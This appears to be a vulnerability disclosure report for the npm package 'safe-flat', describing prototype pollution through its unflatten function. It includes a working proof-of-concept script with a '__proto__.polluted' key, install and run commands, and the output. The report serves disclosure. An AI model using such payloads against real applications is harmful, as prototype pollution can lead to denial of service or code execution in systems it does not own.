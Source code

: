 # Description

`safe-flat` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var {unflatten } = require("safe-flat")
console.log("Before : " + {}.polluted);
unflatten({"__proto__.polluted": "Yes! Its Polluted"})
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i safe-flat # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
